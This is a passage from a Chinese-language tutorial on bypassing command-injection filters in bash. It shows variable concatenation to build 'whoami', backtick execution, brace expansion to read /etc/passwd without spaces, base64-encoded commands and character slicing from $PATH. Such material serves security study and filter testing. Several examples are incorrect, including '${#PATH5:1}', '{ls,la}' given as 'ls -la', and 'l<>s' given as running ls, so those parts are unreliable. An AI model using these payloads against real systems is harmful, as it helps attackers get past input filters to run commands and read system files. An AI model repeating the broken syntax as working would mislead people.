 * **未初始化**的变量，直接使用时，变量值为**null**

```bash
echo $a $b $c
#执行whoami的变形
a=w;b=hoa;c=mi;$a$b$c
```

#### (5)反引号执行

* 在Linux下，反引号中间的字符能够被当做命令执行

```bash
#执行whoami命令：
`whoami`
who`sadasdasdfasfas`am`safqwafasfa`i
```

#### (6)其他符号

* **大括号**、**重定向**符号绕过**空格**的过滤

```bash
1. 大括号
    #执行的 cat /etc/passwd命令：
    {cat,/etc/passwd}

    #执行ls -la指令：
    {ls,la}
2. 重定向
	#小于号是输入重定向，就是把后面跟的文件取代键盘作为新的输入设备，大于号是输出重定向
	a. 执行ls
		l<>s
```

#### (7)base64编码

1. 首先echo [命令] | base64

   ```bash
   echo whoami | base64 
   ```

2. 将命令以base64编码的形式表示出来

   ```bash
   echo [编码之后的命令] | base64 -d		#-d指令表示进行解码
   ```

3. 使用反引号执行该字符串

   ```bash
   `echo [编码之后的命令] | base64 -d`
   ```

#### (8)默认字符命令

* echo **${#PATH}** 可以**截取**字符串

  ```bash
  echo ${#PATH5:1}
  	l
  echo ${#PATH5:1}echo ${#PATH2:1}
  	ls
  `echo ${#PATH5:1}${#PATH2:1}`
  	ls
  ${#PATH5:1}${#PATH2:1}
  	ls
  ```
